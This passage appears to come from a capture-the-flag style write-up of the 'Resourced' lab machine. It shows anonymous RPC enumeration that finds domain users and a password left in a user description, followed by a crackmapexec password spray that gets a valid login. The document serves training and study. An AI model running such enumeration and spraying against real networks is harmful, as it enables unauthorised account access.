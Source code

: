 ### Enumerating RPC 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Resourced]        
└─$ rpcclient 192.168.233.175 -U '' -N                                                         
rpcclient $> querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!
rpcclient $>   
```
login rpcclient anonymous, querying dominfo, we got users and a potential password. `HotelCalifornia194!`

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Resourced]
└─$ crackmapexec smb 192.168.153.175 -u users.txt -p 'HotelCalifornia194!'
SMB         192.168.153.175 445    RESOURCEDC       [*] Windows 10.0 Build 17763 x64 (name:RESOURCEDC) (domain:resourced.local) (signing:True) (SMBv1:False)
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\administrator:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\d.durant:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\g.goldberg:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\j.johnson:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\k.keen:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\l.livingstone:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\m.mason:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\p.parker:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\r.robinson:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [-] resourced.local\s.swanson:HotelCalifornia194! STATUS_LOGON_FAILURE 
SMB         192.168.153.175 445    RESOURCEDC       [+] resourced.local\v.ventz:HotelCalifornia194! 
SMB         192.168.153.175 445    RESOURCEDC       [-] Unexpected error with Neo4J
SMB         192.168.153.175 445    RESOURCEDC       [-] Account not found on the domain
```